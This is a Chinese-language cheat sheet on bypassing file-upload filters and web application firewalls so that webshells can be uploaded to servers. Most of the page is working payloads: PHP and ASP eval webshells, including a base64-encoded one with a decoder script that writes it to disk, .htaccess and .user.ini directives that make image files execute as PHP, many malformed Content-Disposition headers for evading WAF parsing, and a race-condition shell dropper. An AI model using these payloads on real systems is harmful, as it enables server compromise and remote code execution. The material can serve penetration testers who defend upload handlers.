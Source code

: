 # 文件上传绕过速查表



我这里就分为两种吧，一种是基于代码限制的，一种基于防火墙，其实总的来看两者差不多，都是检测文件合法性，但是两者区别开来，在实际应用中信息收集之后对于一个网站的防护措施有了了解后，能够更精准的选择上传绕过方式。

（本篇都使用php一句话木马作为示例）

#### 前端JS限制文件后缀

限制只能上传规定后缀文件，绕过方式：

1.禁用检测文件后缀的JS代码

2.上传正常格式文件，抓包修改文件的filename为脚本格式

#### Content-type限制

后台校验上传文件的Content-type是否为指定值，绕过方式：

1.上传时抓包修改Content-type

2.上传正常格式文件，抓包修改文件的filename为脚本格式

#### 文件后缀黑名单检测限制

1.大小写绕过，例如黑名单中为.php，那么可以上传.PHP或者.Php来绕过黑名单

2.“. ”“\_”号和空格绕过，（只适用于Windows系统）Windows系统下，文件名后缀最后一个“.”“\_”和空格会被自动去除，例如黑名单为.php，那么可以上传.php.，.php\_或者.php 来绕过黑名单，Windows在解析时会删除最后一个.和\_还有空格

3.::$DATA绕过，（只适用于Windows系统）在Windows的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名

4.双写绕过，有些函数会替换敏感文件名，但不递归删除的话就可以双写绕过，例如a.phphpp，php被替换为空后就成了a.php

5.00截断绕过，上传时上传a.php.jpg，抓包在php后添加一个字符修改其HEX值为00，这样解析之后就是a.php了，也绕过了黑名单；
常见于ASP程序，JSP也会出现
PHP限制条件：
php<5.3.4
php.ini中的magic_quotes_gpc设置为OFF

6.上传可解析的扩展文件名，例如：

asp/aspx:
asp,aspx,asa,asax,ascx,ashx,asmx,cer,aSp,aSpx,aSa,aSax,aScx,aShx,aSmx,cEr

php :
php,php5,php4,php3,php2,pHp,pHp5,pHp4,pHp3,pHp2,html,htm,phtml,pht,Html,Htm,pHtml

jsp :
jsp,jspa,jspx,jsw,jsv,jspf,jtml,jSp,jSpx,jSpa,jSw,jSv,jSpf,jHtml

可利用burp fuzz测试

7..htaccess和.user.ini绕过黑名单

.htaccess使用条件：

.htaccess只适用apache
①、Allow Override All
②、LoadModule rewrite_module modules/mod_rewrite.so #rewrite模块为开启状态

.htaccess内容：

```
AddType application/x-httpd-php .jpg
将所有后缀为.jpg的文件作为php文件解析
```

```
<FilesMatch "BaiZe">
setHandler application/x-httpd-phpBZ
</FilesMatch>  
将所有文件名包含BaiZe的文件作为php文件解析
```

​           

.user.ini使用条件：

①.user.ini适用于服务器使用CGI／FastCGI模式且目录下要有可执行的php文件

.user.ini内容：

```
auto_prepend_file=a.jpg
a.jpg中符合php语言的代码会被执行
```

#### 文件头限制

文件头检测，上传图片马，在修改后缀为可解析脚本语言；或者上传一句话木马在文件中添加正常格式文件头例如：GIF89a

#### 危险函数检测

一般为waf对上传文件的内容进行检测

1.使用动态调用绕过，例如：

```
<?php $_GET['0']($_GET['1']);?>
此方法不能绕过disable_function
```

2.上传编码后的webshell配合.htaccess来解析

3.上传编码后的webshell，再另外上传一个脚本文件解码webshell并写入新文件，例如下面这段代码为1.php

```
PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=
```

上传后再上传下面为2.php

```
<?php 

$path ="/xx/xxx/xx/1.php";

$str= file_get_contents($path);

$strs = base64_decode($str);

$test = fopen("./test.php","w");test
test
fwrite($test,$strs);
fclose($test);
?>
```

然后访问后再访问test.php即可getshell

#### WAF拦截绕过

**常用的黑名单绕过方法也适用于部分waf，更多的是需要配合使用才能成功上传，主要思路为接收文件名和waf的检测有所差异，只要是服务器能接收并解析，怎样能绕过waf的检测都可以。**

例如00截断，文件名+;号，文件名+'号，上传hatccess和user.ini，上面概述过的这里不再重复，使用时应配合使用

1.换行绕过检测，例如

```
Content-Disposition: form-data; name="file"; filename="1.p
hp"
Content-Disposition: form-data; name="file"; file
name="1.php"
Content-Disposition: form-data; name="file"; filename=
"1.php"
三种均可
```

2.多个等号绕过检测，例如

```
Content-Disposition: form-data; name="file"; filename==="a.php"
```

3.增大文件大小，类似于sql注入的垃圾字符绕waf，例如

```
Content-Disposition: form-data; aaaaaaaaaaaaaaaaaaaaa......aaaaaaaaaaaaaaaaaaaaa;name="file"; filename="a.php"
```

4.去掉或替换引号绕过waf

```
Content-Disposition: form-data; name=file1; filename=a.php
Content-Disposition: form-data; name='file1'; filename="a.php"
```

4.增加filename干扰拦截，例如

```
Content-Disposition: form-data; name="file"; filename= ;  filename="a.php"
```

5.混淆waf匹配字段，例如

混淆form-data

```
Content-Disposition: name="file"; filename="a.php"
去除form-data
```

```
Content-Disposition: AAAAAAAA="BBBBBBBB"; name="file";  filename="a.php"
替换form-data为垃圾值
```

```
Content-Disposition: form-data   ; name="file"; filename="a.php"
form-data后加空格
```

```
Content-Disposition: for+m-data; name="file"; filename="a.php"
form-data中加+
```

混淆ConTent-Disposition

```
COntEnT-DIsposiTiOn: form-data; name="file"; filename="a.php"
大小写混淆
```

```
Content-Type: image/gif
Content-Disposition: form-data; name="file";  filename="a.php"
调换Content-Type和ConTent-Disposition的顺序
```

```
Content-Type: image/gif
Content-Disposition: form-data; name="file";  filename="a.php"
Content-Type: image/gif
增加额外的头
```

```
AAAAAAAA:filename="aaa.jpg";
Content-Disposition: form-data; name="file";  filename="a.php"
Content-Type: image/gif
增加额外的头
```

```
Content-Length: 666
Content-Disposition: form-data; name="file";  filename="a.php"
Content-Type: image/gif
增加额外的头
```

6.双文件绕过，例如安全狗总以最后一个Content-Disposition中的值做为接收参数进行检测，一些中间件例如IIS6.0总是以第一个Content-Disposition中的值做为接收参数。

7.容器与WAF对Boundary要求规则不一致

```
Content-Type: multipart/form-data; boundary=---------------------------471****1141173****525****99
Content-Length: 253
-----------------------------471****1141173****525****99
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream
<%eval request("a")%>
-----------------------------471****1141173****525****99--
```

一些WAF会认为两段Boundary不一致的数据是无意义的，不进行检测，而容器并没有严格要求，正常接收数据。

8.条件竞争，一些情况下在上传文件时，先上传到临时目录，然后再检测，检测到再删除，例如：可以上传生成一句话木马的文件

```
fputs(fopen('shell6666.php','w'),'<?php @eval($_POST[1])?>');
```

上传同时疯狂重复发包访问此文件，就有可能会在文件被删除之前生成webshell文件a.php



